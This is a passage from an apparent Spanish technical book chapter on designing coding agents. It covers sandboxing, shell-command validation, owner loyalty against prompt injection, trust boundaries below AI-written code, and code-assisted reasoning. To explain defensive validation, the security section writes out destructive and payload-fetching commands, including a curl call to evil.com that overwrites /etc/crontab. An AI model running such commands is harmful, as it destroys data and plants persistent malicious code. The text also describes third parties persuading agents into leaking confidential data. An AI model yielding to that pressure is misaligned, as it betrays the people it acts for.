- **Alcance de aislamiento del sistema de archivos**. El directorio del código fuente se monta en modo de solo lectura (el Agente modifica el código mediante herramientas de edición, los parches generados se aplican al disco tras la revisión, o se monta una copia en un espacio de trabajo escribible), mientras que un directorio de espacio de trabajo escribible independiente alberga los productos generados y los archivos intermedios. Los archivos de credenciales (`~/.ssh`, claves, tokens) no se montan en absoluto en el sandbox: los datos que no son visibles no se pueden filtrar, lo que responde al primer elemento de la Tríada Mortal.
- **Cuotas de recursos y tiempos de espera**. Se aplican cuotas de CPU, memoria y disco junto con un tiempo de espera de reloj real para defenderse contra bucles infinitos, bombas fork (procesos que se replican descontroladamente hasta colapsar el sistema) y escrituras infinitas en disco. Un detalle práctico: las interrupciones por tiempo de espera o exceso de cuota deben devolver un error estructurado al Agente ("Ejecución terminada tras superar los 120 segundos, la última salida fue...") en lugar de matar el proceso silenciosamente, dando al Agente la oportunidad de corregir su estrategia en la siguiente ronda.
- **Armonización de sesiones persistentes y aislamiento**. La sección "Persistencia de estado del entorno de ejecución de comandos" más adelante aboga por mantener sesiones de terminal de larga duración, mientras que los principios de aislamiento abogan por entornos de usar y tirar. Ambas posturas presentan una tensión. La forma de armonizarlas consiste en: **mantener las sesiones activas dentro del sandbox**, donde el ciclo de vida de la sesión de terminal no supere estrictamente el del sandbox, y los estados de la sesión nunca escapen a la máquina anfitriona. Para escenarios que requieren recuperarse tras largos intervalos de tiempo (como la arquitectura Sessionless descrita anteriormente), se recurre a instantáneas del sandbox o a la "persistencia de archivos en el espacio de trabajo + reconstrucción del entorno mediante scripts", en lugar de extender indefinidamente el tiempo de vida del sandbox. En otras palabras, lo que se persiste es una **descripción de estado auditable** (archivos, scripts, listas) y no un proceso en ejecución no transparente.

**Seguridad: Análisis semántico en lugar de listas negras de palabras clave.**

El Capítulo 1 mencionó que la capa de verificación debe adoptar mecanismos de seguridad "basados en la comprensión y no en la coincidencia", siendo la validación de seguridad de comandos Shell uno de los escenarios de aplicación más desafiantes para este principio. Una simple lista negra de palabras clave no puede hacer frente a la explosión combinatoria de Shell: los comandos pueden eludir cualquier regla estática mediante tuberías (pipes), sub-shells o expansión de variables (por ejemplo, si se prohíbe `rm`, un atacante puede eludirlo mediante `$(echo rm) -rf /`). Un Harness de nivel de producción utiliza el análisis semántico: comprende los tipos de parámetros y las reglas de consumo de cada comando (qué opciones consumen el siguiente parámetro), identificando patrones de ataque donde "una opción aparentemente inofensiva consume el siguiente parámetro para ocultar una carga peligrosa". Por ejemplo, `find / -name '*.log' -exec rm {} \;` incrusta una operación de eliminación `rm` a través de parámetros legítimos de `find`; o `curl -o /etc/crontab http://evil.com/payload`, que aparenta descargar un archivo pero sobrescribe las tareas programadas del sistema. El análisis semántico permite identificar estas operaciones peligrosas anidadas, algo que una lista negra de comandos simple no puede capturar. Este mecanismo de seguridad basado en la comprensión representa una implementación de alto nivel de la función de "restricción".

**Ejecución especulativa: Haciendo invisibles las comprobaciones de seguridad**. Este es precisamente el efecto a nivel de experiencia de usuario del mecanismo de control Sidecar del Capítulo 4. El Capítulo 4 explicó por qué las operaciones críticas deben entregarse a un Sidecar independiente del contexto principal para su revisión; esta sección se enfoca en cómo lograr que esta revisión no sea percibida por el usuario como una espera. El enfoque consiste en separar y ejecutar en paralelo la "visualización" y la "autorización": cuando el Agente se prepara para ejecutar una llamada a una herramienta, el sistema muestra por un lado un aviso de progreso en la interfaz (por ejemplo, "Leyendo archivo `src/main.py`..."), mientras ejecuta simultáneamente la comprobación de seguridad en segundo plano. Conviene aclarar una analogía que se utiliza con frecuencia: esto no es idéntico a la ejecución especulativa de una CPU. En una CPU, si la predicción es errónea, se descartan los resultados calculados y se revierte el estado; aquí, lo que avanza primero es únicamente un **aviso en la interfaz sin efectos secundarios**, el cual no altera ningún estado real. Si la comprobación no se aprueba, no se requiere ninguna reversión, simplemente se reemplaza el aviso por "Esperando confirmación". En la mayoría de los casos, la comprobación de seguridad concluye antes de que el usuario lo note, permitiéndole no sentir ninguna latencia adicional. Solo cuando no se puede tomar una determinación rápida, el sistema se detiene realmente a esperar confirmación. Este es el nivel más alto del diseño de un Harness: la seguridad no se logra a costa de sacrificar la experiencia del usuario.

**A quién es leal el Agente: Lealtad en la delegación multipartita.**

Los mecanismos de seguridad anteriores previenen que los comandos "hagan cosas malas", pero existe otra categoría de problemas de seguridad más sutil: la **lealtad al principal (principal loyalty)**, es decir, **de qué lado está realmente el Agente**. Durante el entrenamiento, los modelos son inculcados con un principio predeterminado ingenuo: "ayudaré en lo posible a quien esté hablando conmigo". Sin embargo, en la realidad los Agentes se encuentran a menudo en situaciones de **delegación multipartita**: actúan en representación de su dueño, pero interactúan con terceros cuyos intereses son opuestos. Un Agente negociando en tu nombre no se encuentra frente a un "usuario que necesita ayuda", sino ante un **contraparte de negociación**. En este contexto, la postura predeterminada de "ayudar a quien hable" resulta peligrosa: basta con que la contraparte hable para que pueda persuadir al Agente a cambiar de bando.

Al evaluar modelos de vanguardia en esta situación, se observa un claro **espectro de lealtad**, donde ambos extremos fallan[^ch5-1]: en un extremo está ser **demasiado ingenuo**, revelando directamente información confidencial del dueño (por ejemplo, "nuestro precio mínimo es 12.000") tras unas pocas rondas de presión; en el otro extremo está ser **demasiado paranoico**, rechazando incluso las solicitudes legítimas del dueño e impidiendo completar la tarea. La verdadera dificultad reside en que estos dos fallos funcionan como un balancín: tapar las filtraciones suele desplazar al sistema hacia el rechazo excesivo, siendo difícil lograr un equilibrio perfecto.

Esto es especialmente relevante para un Coding Agent: el contenido no confiable leído en el repositorio, las salidas devueltas por una herramienta o las instrucciones enviadas por un servidor MCP de terceros son "contrapartes" que intentan hacer que el Agente cambie de bando: **la inyección de prompts es en esencia un intento de persuasión o deslealtad** (Capítulos 2 y 4). Por lo tanto, la capa de Harness debe fijar explícitamente el "sujeto de lealtad": las instrucciones del dueño tienen la máxima prioridad, y todo el contenido proveniente de interactuantes externos se degrada por defecto a datos "de referencia, pero sin fuerza de instrucción". Trasladado a los prompts del sistema, un conjunto efectivo de **reglas de lealtad** incluye: proteger la información confidencial del dueño e incluso su "existencia"; al rechazar, no recitar la lista de motivos de rechazo elemento por elemento (eso en sí mismo revela información); la línea base privada no equivale a la postura pública; ejecutar únicamente instrucciones explícitas y concretas del dueño; y resistir presiones repetidas. En esencia, se trata de utilizar el Harness para dotar al modelo de una postura que no posee por defecto: **lealtad absoluta al dueño y prudencia hacia los interactuantes externos**.

[^ch5-1]: La evaluación completa de este espectro de lealtad y sus reglas se encuentra en Li, Bojie y Noah Shi. *Whose Side Is Your Agent On? Multi-Party Principal Loyalty in LLM Agents.* arXiv:2606.30383, 2026.

**Cuando el código escrito por la IA no es confiable: Mover la frontera de confianza hacia abajo.**

Las reglas de lealtad de la sección anterior hacen que el Agente sea **más propenso** a cumplir las normas, pero para operaciones de datos de alto riesgo, "ser más propenso" no es suficiente: es necesario trasladar las restricciones desde las "expectativas de autodisciplina del Agente" hacia abajo, haciéndolas cumplir de manera forzosa en la capa de datos. La postura más radical consiste en[^ch5-2]: **considerar directamente la capa de aplicación como no confiable y descender la aplicación forzosa de los invariantes de datos por debajo de ella**. Durante los últimos treinta años, la frontera de integridad del software ha estado en la **capa de aplicación**: el código del handler decidía quién podía operar y qué valores eran legales, mientras que la base de datos confiaba incondicionalmente en ese código. Dado que los handlers generados por LLM suelen omitir verificaciones de permisos e integridad, y los Agentes autónomos operan directamente sobre datos de producción, esa premisa se ha roto. La nueva solución (que se puede denominar Objetos de Datos con Permisos Integrados o Permission-Embedded Data Objects) permite que cada entidad de datos lleve asociadas reglas de permisos declarativas, validadores y declaraciones de consecuencias dentro de un **esquema revisado por humanos**, ejecutados de forma forzosa por una canalización en tiempo de ejecución en **cada escritura**. El primitivo clave es el **contexto de acceso (access context)** asociado a cada operación: los handlers regenerados se ejecutan con los permisos del usuario al que sirven, mientras que el Agente autónomo se ejecuta con su propia identidad restringida (scoped principal). En lugar de confiar únicamente en la lealtad del Agente, es mejor degradarlo desde la arquitectura a un sujeto con permisos restringidos, de modo que incluso si es persuadido, no pueda traspasar los límites establecidos.

Comparado con los mismos prompts, este mecanismo logra que **ninguna escritura viole los invariantes declarados**; mientras que el SQL puro, las comprobaciones escritas por el LLM, los prompts constitucionales y los interceptores de límites de acción pasan por alto infracciones de varias a docenas de veces. No se trata de "ser más propenso a acertar", sino de ser "imposible de errar", con el único costo de unos 2 milisegundos adicionales por escritura. Por supuesto, la garantía es condicional: el esquema debe definir completamente los invariantes deseados, y el despliegue debe cerrar todas las vías para que la capa no confiable eluda el almacenamiento y se conecte directamente a la base de datos. Para un Coding Agent, esto ofrece un principio de arquitectura fundamental: **cuando tanto quien escribe el código como quien lo ejecuta pueden no ser confiables, las restricciones verdaderamente confiables no pueden residir en el código generado, sino en la capa inferior de cimientos revisados por humanos**, representando la forma final del principio "las restricciones priorizan sobre la orientación" del Capítulo 1 en la capa de datos.

[^ch5-2]: El diseño de "mover la frontera de confianza por debajo de la capa de aplicación" y su evaluación (incluyendo una comparación completa del número de infracciones de cada solución) se encuentra en Li, Bojie. *The Application Layer Is No Longer Trusted: Enforcing Data Invariants Below AI-Written Code and AI Agents.* 2026 (pendiente de publicación).

## El código: La metacapacidad de un Agente general

La sección anterior mostró cómo construir un Coding Agent confiable: desde el diseño de arquitectura hasta la implementación de herramientas y la Ingeniería de Harness. Sin embargo, el valor de la generación de código va mucho más allá de escribir programas.

> **¿Qué es una "metacapacidad"?** Una capacidad ordinaria permite que un Agente realice una tarea concreta: responder una pregunta, llamar a una API o generar un texto. Una **metacapacidad** (meta-capability) es una capacidad "capaz de crear otras capacidades": el Agente la utiliza para escribir en el acto nuevas herramientas, nuevas restricciones y nuevas formas de expresión para completar una tarea, sin necesidad de tener todas las capacidades preconstruidas de antemano. La generación de código es precisamente una metacapacidad de este tipo: es precisa, ejecutable y combinable, por lo que permite producir tanto nuevas herramientas (scripts, secuencias de llamadas API) como nuevas restricciones (aserciones, reglas de validación) y nuevas formas de expresión (formularios HTML, PPT, fotogramas de video).

Por esta razón, el papel que desempeña el código en los Agentes supera con creces el "escribir programas". Las seis secciones siguientes muestran el despliegue de esta metacapacidad en seis direcciones más allá de la programación. Estas seis direcciones no están listadas en paralelo, sino organizadas de adentro hacia afuera según el "sujeto sobre el cual actúa la metacapacidad":

1. **El pensamiento mismo**: Usar código para sustituir el razonamiento en lenguaje natural propenso a errores (Herramienta de pensamiento);
2. **Las reglas de negocio**: Codificar políticas ambiguas en restricciones ejecutables (Restricción para reglas de negocio);
3. **La presentación de contenidos**: Generar PPT, video y artefactos visuales (Generación multimedia);
4. **Las interfaces del sistema**: Conectar API heterogéneas y adaptarse automáticamente a la evolución de los formatos de datos (Adaptador del sistema);
5. **La interfaz de usuario**: Construir dinámicamente formularios e interfaces de interacción (UI generativa);
6. **El Agente mismo**: Usar código para crear o reparar nuevos Agentes, formando un autoinicio (Bootstrapping).

### El código como herramienta de pensamiento

Los LLM muestran un rendimiento sorprendente en la comprensión y generación del lenguaje natural, pero tienen deficiencias fundamentales en el cálculo preciso, la manipulación simbólica o la deducción lógica estricta. La razón reside en que el pensamiento del modelo es esencialmente probabilístico y aproximado, mientras que los problemas matemáticos y lógicos exigen respuestas deterministas y exactas. Una comparación concreta lo ilustra:

```text
Problema: "Una clase tiene 40 estudiantes, de los cuales el 60% cursa Matemáticas, el 45% cursa Física,
           y el 25% cursa ambas materias. ¿Cuántos estudian solo Física pero no Matemáticas?"

Razonamiento en lenguaje natural (Propenso a error):   Razonamiento con código (Preciso y verificable):
"60% en Matemáticas = 24 personas,                   math = int(40 * 0.60)    # 24
 45% en Física = 18 personas,                        phys = int(40 * 0.45)    # 18
 25% en ambas = 10 personas,                         both = int(40 * 0.25)    # 10
 solo Física = 24 - 10 = 14 personas"                only_phys = phys - both  # 8
→ Error al restar de los de Matemáticas               → print(only_phys)  # 8 ✓
```

Permitir que el LLM se encargue de comprender el problema y escribir el código, dejando que el Intérprete de Código realice los cálculos precisos: esta división de trabajo permite que cada parte aporte lo mejor de sí.

Stephen Wolfram, fundador de Mathematica, aportó una visión profunda sobre este tema. Antes de la llegada de los LLM, ya existían sistemas capaces de realizar cálculos matemáticos precisos mediante **cálculo simbólico** (Symbolic Computation), es decir, procesando expresiones con símbolos matemáticos en lugar de valores numéricos aproximados. Por ejemplo, una calculadora común evalúa $\sqrt{2}$ como 1.414, mientras que un sistema de cálculo simbólico conserva la forma exacta $\sqrt{2}$ y solo la convierte a decimal cuando es necesario. Wolfram Alpha, creado por Wolfram, es un sistema de este tipo: el usuario ingresa un problema matemático y devuelve una respuesta exacta. Sin embargo, su comprensión del lenguaje natural es frágil y su cobertura estrecha: depende de un parseo sintáctico interno con formas de consulta limitadas, fallando ante pequeñas variaciones en la formulación y siendo incapaz de gestionar razonamientos de múltiples pasos en dominios abiertos. Los LLM compensan precisamente esta deficiencia: destacan en comprender diversas expresiones en lenguaje natural, pero no en el cálculo preciso. El nuevo modo de colaboración consiste en: permitir que el LLM comprenda el problema en lenguaje natural del usuario, identifique su estructura matemática o lógica y la traduzca a un lenguaje formal (como el lenguaje Mathematica o la biblioteca SymPy de Python); para luego entregarla a un motor de cálculo simbólico o solver de restricciones que ejecute y obtenga el resultado exacto.

> **Experimento 5-1 ★★: Uso de herramientas de generación de código para mejorar el razonamiento matemático**
>
> **Objetivo del experimento**: Verificar la mejora en la precisión del razonamiento matemático del Agente al apoyarse en un Code Interpreter.
>
> **Solución técnica**: Equipar al Agente con un sandbox de Python que contenga bibliotecas matemáticas instaladas como `sympy`, `numpy` y `scipy`. Cuando el Agente enfrenta un problema matemático, lo formaliza en código Python: `sympy` realiza cálculo simbólico (cálculo diferencial e integral, resolución de ecuaciones), `scipy` realiza optimización numérica y `numpy` ejecuta operaciones matriciales. El código generado se ejecuta en el sandbox devolviendo resultados exactos.
>
> **Criterios de aceptación**: Evaluar utilizando problemas de estilo AIME (alineados con la Competencia de Matemáticas de Invitación de EE. UU.). Comparar la precisión entre el pensamiento puro por Cadena de Pensamiento (CoT) y el pensamiento asistido por código, exigiendo que el modo asistido por código sea significativamente superior. Verificar que el código utilice correctamente las bibliotecas matemáticas y que el proceso de resolución presente una lógica clara.

> **Experimento 5-2 ★★: Uso de herramientas de generación de código para mejorar el razonamiento lógico**
>
> **Objetivo del experimento**: Evaluar la capacidad del Agente para asistir al razonamiento lógico mediante código de resolución de restricciones.
>
> **Solución técnica**: Equipar al Agente con un Code Interpreter que incluya la biblioteca `python-constraint`. El Agente traduce acertijos lógicos (como los problemas de Caballeros y Villanos / Knights and Knaves) en definiciones de restricciones formalizadas: identificando todas las variables (la identidad de cada habitante), las condiciones de restricción (deducciones como "los caballeros dicen la verdad"), definiendo las restricciones e invocando al solver para buscar soluciones que satisfagan todas las condiciones.
>
> **Criterios de aceptación**: Evaluar utilizando el conjunto de datos [K&K Puzzle Dataset](https://huggingface.co/datasets/K-and-K/perturbed-knights-and-knaves). La precisión del modo asistido por código debe alcanzar más del 90%, siendo significativamente superior al modo de pensamiento puro.

Este experimento revela una ley general: la relación entre el modelo y el andamiaje (Harness) es de suma cero. Cuando el modelo es lo suficientemente potente, el Harness puede ser más delgado: el modelo razona correctamente por sí mismo y las ganancias aportadas por el solver de código se reducen; cuando el modelo no es lo suficientemente fuerte, se debe hacer más trabajo en el Harness, entregando el razonamiento lógico clave al código y a los solvers de restricciones para garantizar la corrección. Por esta razón, este experimento selecciona deliberadamente modelos más débiles para amplificar el contraste: en modelos débiles, el modo de pensamiento puro comete errores de cálculo con frecuencia y la asistencia por código eleva drásticamente la precisión; mientras que al cambiar a un modelo de razonamiento lo suficientemente fuerte, el pensamiento puro resuelve casi todos los acertijos y la ganancia del código converge cerca de cero. Por lo tanto, qué tan grueso debe ser el Harness depende de los límites de capacidad del modelo utilizado, un prerrequisito que suele ignorarse al evaluar tecnologías de Agentes: la misma configuración de Harness combinada con modelos de diferentes capacidades puede conducir a conclusiones completamente distintas.

### El código como restricción para las reglas de negocio

Esta sección responde directamente a la Ingeniería de Harness presentada previamente. Uno de los principios nucleares del Harness es "restricciones: codificadas y no documentadas", convirtiendo las reglas desde documentos en lenguaje natural hacia código ejecutable, de modo que pasen a ser restricciones de comportamiento forzosas para el sistema y no meras guías sugeridas. La generación de código permite que el Agente complete este proceso de transformación de forma autónoma.

Las reglas de negocio, los flujos de trabajo y la lógica de toma de decisiones descritos únicamente en lenguaje natural suelen estar llenos de ambigüedades. ¿Qué constituye una "solicitud de reembolso razonable"? ¿Qué se considera una "situación de emergencia"? Los límites de estos conceptos son difíciles de definir en lenguaje natural: "reembolsable dentro de los 7 días posteriores a la compra" parece claro, pero ¿los "7 días" son días naturales o hábiles? ¿La "compra" corresponde al momento del pedido o al del envío? En contraste, el código proporciona una forma de expresión de conocimiento inequívoca y ejecutable: o bien se ejecuta con éxito o bien lanza un error, sin dar lugar a ambigüedades.

**Expresión precisa de reglas de negocio complejas.**

**Reglas en lenguaje natural vs Reglas en código: Complementarias y no sustitutivas**

Ventajas de escribir reglas en los prompts del sistema: El modelo puede **explicar las políticas** al usuario apoyándose en las reglas; puede **buscar soluciones alternativas** según las reglas (como "cambiar la fecha en lugar de cancelar"); y puede realizar un juicio preliminar de viabilidad antes de invocar herramientas.

Ventajas de codificar reglas como herramientas de validación: **Precisión e inequivocidad** de la lógica en código (sin desviaciones de interpretación); **determinismo** en la ejecución de código (las mismas entradas producen siempre las mismas salidas); especialmente adecuado para **combinaciones complejas de reglas** (combinaciones booleanas de múltiples condiciones, cálculos de fechas, validaciones cruzadas entre fuentes de datos).

En la práctica se deben combinar ambas: los prompts del sistema contienen reglas en lenguaje natural para la comprensión y la comunicación, mientras que los puntos de decisión críticos se equipan con herramientas de validación en código actuando como "guardianes" para garantizar el cumplimiento.

El verdadero valor de codificar las reglas no reside en optimizar el consumo de tokens, sino en **prevenir operaciones erróneas irreversibles**: cancelar pedidos, transferir fondos o eliminar datos son acciones que no se pueden deshacer una vez ejecutadas. La validación en código establece una última línea de defensa antes de la operación, aportando un valor de seguridad que supera con creces su costo de implementación.

**Combinar validación y ejecución: Checklist para guiar el pensamiento, validación con valores reales para custodiar**

En lugar de diseñar herramientas de validación independientes, es mejor incorporar la validación previa dentro de la propia herramienta de ejecución. Tomando como ejemplo la política de cancelación de aerolíneas en tau-bench (un benchmark que simula atención al cliente en aviación y comercio electrónico para evaluar las llamadas a herramientas y el cumplimiento de políticas de los Agentes):

```python
def cancel_reservation(
    reservation_id: str,
    cancellation_reason: str,        # "change_of_plan", "airline_cancelled", "other"
    expected_cabin_class: str = None,    # Opcional: para autoverificación del modelo, el servidor contrasta con la BD
    expected_has_insurance: bool = None  # Opcional: para autoverificación del modelo, ídem anterior
) -> dict:
    """
    Cancela una reserva de vuelo.

    Política de cancelación (el servidor la aplica de forma forzosa según los valores reales de la BD):
    - Regla 1: Los pedidos con cualquier tramo utilizado no se pueden cancelar.
    - Regla 2: Las reservas realizadas en las últimas 24 horas se pueden cancelar incondicionalmente.
    - Regla 3: Los vuelos cancelados por la aerolínea siempre se pueden cancelar.
    - Regla 4: La clase ejecutiva (business) siempre se puede cancelar.
    - Regla 5: La clase turista básica y turista requieren seguro de viaje para poder cancelarse.

    Antes de la Invocación, consulte los detalles del pedido y verifique las reglas anteriores punto por punto;
    los parámetros expected_* se utilizan para declarar su fundamento de juicio y solo sirven para auditoría en el servidor.
    """
    # Todos los hechos de la política se leen de la base de datos, sin confiar en los valores declarados por el modelo
    r = db.get_reservation(reservation_id)
    now = server_clock.now()  # Reloj del servidor, no proporcionado por el modelo

    # Registrar alertas cuando los valores declarados por el modelo no coincidan con los reales
    if expected_cabin_class is not None and expected_cabin_class != r.cabin_class:
        log_mismatch(reservation_id, "cabin_class", expected_cabin_class, r.cabin_class)
    if expected_has_insurance is not None and expected_has_insurance != r.has_insurance:
        log_mismatch(reservation_id, "has_insurance", expected_has_insurance, r.has_insurance)

    if r.any_segment_used:
        return {"success": False, "reason": "No se puede cancelar con tramos usados"}

    hours_since_booking = (now - r.booking_time).total_seconds() / 3600
    if hours_since_booking < 0:
        return {"success": False, "reason": "Booking time is in the future"}
    if hours_since_booking <= 24:
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Cancelado dentro de la ventana de 24 horas"}

    if r.flight_status == "cancelled_by_airline":
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Vuelo cancelado por la aerolínea"}

    if r.cabin_class == "business":
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Cancelación correspondiente a clase ejecutiva"}

    if r.cabin_class in ["basic_economy", "economy"]:
        if r.has_insurance:
            execute_cancellation(reservation_id)
            return {"success": True, "reason": f"{r.cabin_class} con seguro de viaje"}
        return {"success": False, "reason": f"{r.cabin_class} requiere seguro de viaje"}

    return {"success": False, "reason": "No cumple con la política de cancelación"}
```

El valor de este diseño debe analizarse en dos niveles:

**Primer nivel: Los parámetros como checklist de pensamiento**. La descripción de la herramienta enumera la política de cancelación completa y exige que el modelo "consulte los detalles del pedido y verifique punto por punto antes de llamar"; los parámetros opcionales `expected_*` impulsan al modelo a escribir explícitamente su fundamento de juicio. Para llenar estos parámetros, el modelo debe invocar primero la herramienta de consulta para obtener los detalles del pedido y verificar cada condición: el acto de llenar los parámetros es en esencia un **checklist obligatorio**. Cuando el modelo descubre que la clase es turista y no se adquirió seguro, es muy probable que al preparar la llamada note la Regla 5 y **ni siquiera llegue a iniciar la Invocación**, indicándole directamente al usuario que "la clase turista sin seguro no se puede cancelar, considerando la opción de comprar seguro o cambiar el pasaje". El valor de este nivel reside en guiar el pensamiento y reducir llamadas inútiles; no asume la responsabilidad de seguridad: los parámetros `expected_*` son solo declaraciones del modelo y el servidor no los considera hechos.

**Segundo nivel: La validación con datos reales del servidor como guardián**. Nótese el diseño clave en el código: la clase de pasaje, el estado del seguro, la hora de reserva, el uso de tramos y el estado del vuelo se obtienen consultando la base de datos desde el servidor; la hora actual procede del reloj del servidor. **Ningún hecho de la política procede de los parámetros declarados por el modelo**. Esto no es una cautela excesiva: el modelo puede alucinar o ser manipulado mediante inyección de prompts (como se analizó en la Tríada Mortal, un Agente en el mismo contexto difícilmente puede demostrar su propia inocencia). Si `cabin_class`, `has_insurance` o `current_time` se diseñaran como parámetros a llenar por el modelo, bastaría con que el modelo se equivocara (o fuera inducido a equivocarse) en un valor para que el guardián quedara completamente inhabilitado. La última línea de defensa debe construirse sobre datos que el modelo no pueda falsificar, coincidiendo con la postura de que "las operaciones críticas requieren verificación independiente": la independencia no solo se refiere a modelos independientes, sino también a fuentes de datos independientes.

La triple protección se completa así: (1) Las reglas en lenguaje natural del prompt del sistema ayudan a comprender y explicar; (2) La descripción de la herramienta y el diseño de parámetros sirven como checklist para guiar al modelo a verificar las condiciones explícitamente antes de llamar; (3) La validación en código basada en los datos reales de la base de datos del servidor actúa como el guardián final. Las dos primeras reducen la ocurrencia de errores, y la tercera garantiza que los errores no se conviertan en pérdidas irreversibles.

> **Experimento 5-3 ★★: Modelos pequeños mejoran la precisión de ejecución de reglas mediante conocimiento basado en código**
>
> **Objetivo del experimento**: Verificar que un modelo de menor escala (Qwen3-4B) mejora significativamente la precisión y consistencia en la ejecución de políticas complejas mediante reglas de negocio codificadas.
>
> **Solución técnica**: Diseñar un experimento controlado basado en el escenario de atención al cliente en aviación de tau-bench. **Grupo de control**: Reglas puramente en lenguaje natural, dependiendo únicamente del razonamiento del modelo. **Grupo experimental**: Triple protección (prompt del sistema conserva reglas en lenguaje natural; descripción de herramientas enumera la política completa y guía la verificación mediante parámetros opcionales `expected_*` checklist; validación en código interna en las herramientas consultando datos reales de la base de datos y reloj del servidor, sin confiar en parámetros declarados por el modelo). Métricas de evaluación: tasa de éxito en la tarea, número de violaciones de políticas, número de llamadas inútiles a herramientas y experiencia del usuario.
>
> **Resultados esperados**: El grupo experimental supera significativamente al grupo de control. Más importante aún, se observa que el modelo identifica operaciones no permitidas al preparar los parámetros, proponiendo soluciones alternativas directamente al usuario, lo que valida la efectividad de "parámetros como checklist"; al mismo tiempo se registra la proporción de discrepancias entre los valores declarados `expected_*` y la base de datos real, validando la necesidad de la "validación con datos reales del servidor" para interceptar sesgos cognitivos del modelo.

### Generación multimedia impulsada por código

La creación de muchos documentos complejos consiste esencialmente en la organización y presentación de datos estructurados. Ya se trate de presentaciones, informes técnicos o aplicaciones interactivas, la capa inferior está definida por código: HTML describe la estructura, CSS controla el estilo y JavaScript implementa la interacción. La creación tradicional de documentos depende de la edición WYSIWYG en interfaces GUI, lo que para un Agente no resulta intuitivo ni eficiente, ya que las operaciones GUI requieren comprensión visual y posicionamiento preciso por coordenadas. A través de la generación de código, el Agente elude la dificultad del posicionamiento visual y obtiene un control preciso sobre el documento: la posición, estilo y contenido de cada elemento están definidos explícitamente y se pueden modificar y optimizar de forma programática.

**Agente de generación de PPT.**

La creación de PPT suele requerir mucho tiempo y esfuerzo. Una presentación académica típica puede contener docenas de diapositivas, requiriendo en cada una un diseño de maquetación cuidadoso, síntesis de puntos clave y selección de gráficos. Reenmarcar la creación de PPT como un problema de generación de código reduce enormemente la complejidad. Los marcos modernos de PPT (como Slidev) adoptan una filosofía elegante: definir el contenido de la presentación mediante Markdown y HTML. Crear una diapositiva solo requiere escribir un lenguaje de marcado conciso, mientras que el marco gestiona automáticamente el renderizado, la maquetación y las animaciones, siendo extremadamente amigable para un Agente con capacidad de generación de código.


Generar código no es suficiente por sí solo. **Tras escribir el código, el Agente ignora el efecto real del renderizado**: si el contenido está demasiado apretado, si el texto se desborda o si el tamaño de las imágenes es adecuado son aspectos que solo se descubren al renderizar. Por ello es necesario introducir un mecanismo de **Proponente-Revisor** (Proposer-Reviewer) (como se muestra en la Figura 5-5), desacoplando la escritura de código y la revisión de calidad en dos Agentes independientes:

- **Proposer Agent**: Encargado de generar código Slidev, comprender la estructura lógica del contenido y desglosarla en páginas razonables.
- **Reviewer Agent**: Ejecuta el código para renderizar cada página como una imagen y utiliza un Vision LLM (un gran modelo multimodal capaz de "ver" imágenes) para analizar los resultados renderizados desde dimensiones como densidad de contenido, legibilidad, maquetación y estética visual, generando **sugerencias de mejora estructuradas** (no un ambiguo "se ve mal", sino instrucciones concretas y ejecutables como "Página 3: demasiado contenido, se sugiere dividir", "Página 7: fuente del bloque de código muy pequeña, aumentar a 14pt"), incluyendo campos como número de página, tipo de problema y nivel de gravedad.

El Proposer recibe la retroalimentación, comprende la intención y modifica el código, enviando la nueva versión al Reviewer para una nueva revisión, iterando hasta que la calidad cumpla el estándar o se alcance el número máximo de rondas (por ejemplo, 5 rondas). "Cumplir el estándar de calidad" y "número máximo de rondas" representan precisamente las dos condiciones explícitas de terminación exigidas por la Ingeniería de Ciclos (Loop Engineering): la primera determinada por el revisor al alcanzar el objetivo, y la segunda utilizando un límite de presupuesto para evitar bucles descontrolados.

El bucle iterativo de Proponente-Revisor de este capítulo comparte el mismo origen que la **aprobación previa** del Capítulo 4 (ambos son instancias del paradigma Proponente-Revisor: separación de generación y revisión, y evaluación independiente mediante dos modelos; expresado en el lenguaje de la Ingeniería de Ciclos, subagentes separados para el "creador" y el "verificador"). La diferencia radica en el objetivo y la forma: el Capítulo 4 lo utiliza para la revisión de seguridad de operaciones irreversibles, donde el revisor aprueba o rechaza una sola operación; mientras que este capítulo lo utiliza para la mejora iterativa de la calidad de contenido (múltiples rondas de bucle, donde el revisor accede a nueva información que el proponente no ve: los resultados del renderizado). Los principios de diseño fundamentales son idénticos (compartir restricciones de objetivos, usar diferentes familias de modelos para reducir la probabilidad de errores similares, e incorporar la retroalimentación como eventos especiales en la trayectoria del Proposer). Adoptar la división en dos Agentes en lugar de un bucle de un solo Agente aporta una **ventaja central en la gestión de contexto**: el Reviewer solo procesa las imágenes renderizadas de la versión más reciente en cada ocasión, sin interferencia de versiones anteriores; mientras que el Proposer solo acumula retroalimentación de texto estructurado, consumiendo pocos tokens y facilitando el razonamiento. La solución de un solo Agente requeriría acumular imágenes renderizadas de docenas de páginas a lo largo de múltiples rondas dentro del mismo contexto, desbordándolo rápidamente. Este mecanismo se reutilizará en los experimentos posteriores de edición de video y visualización de registros; el Capítulo 10 explorará más a fondo otros patrones de colaboración multiagente más allá de Proponente-Revisor.

> **Experimento 5-4 ★★: Generación automática de PPT a partir de artículos académicos**
>
> **Objetivo del experimento**: Generar presentaciones de alta calidad automáticamente a partir de artículos académicos en PDF, verificando la efectividad del mecanismo Proponente-Revisor en el control de calidad de creación de contenido.
>
> **Solución técnica**: Utilizar el marco Slidev. El Proposer Agent lee el PDF del artículo, extrae la estructura de secciones, argumentos centrales y gráficos, planifica la estructura de la presentación y genera código Slidev página por página. **Paso clave**: El Reviewer Agent renderiza capturas de cada página y utiliza un Vision LLM para inspeccionar el efecto renderizado, identificando desbordamientos de texto, saturación de contenido y tamaños de imagen inadecuados para generar sugerencias estructuradas. Iterar hasta alcanzar el estándar.
>
> **Criterios de aceptación**: Generar de 10 a 20 páginas de PPT cubriendo las contribuciones principales del artículo. Incluir al menos 3 gráficos originales del artículo que coincidan con la explicación en texto. Renderizado sin desbordamientos de texto y con maquetación adecuada. Comparar las diferencias en consumo de contexto y calidad entre la autorevisión de un solo Agente frente a la división Proponente-Revisor.

> **Experimento 5-5 ★★: Generación automática de videos explicativos de artículos**
>
> **Objetivo del experimento**: Extender la capacidad de generación de PPT combinando canales visuales y auditivos para lograr la generación automática de videos explicativos.
>
> **Solución técnica**: Apoyándose en el flujo de generación de PPT del Experimento 5-4, el Agente genera simultáneamente el texto explicativo conversacional para cada página (narrativa orientada y no mera lectura literal), invoca un servicio TTS (texto a voz) para sintetizar el audio, y utiliza `ffmpeg` para sincronizar y sintetizar las capturas del PPT con el audio en un video.
>
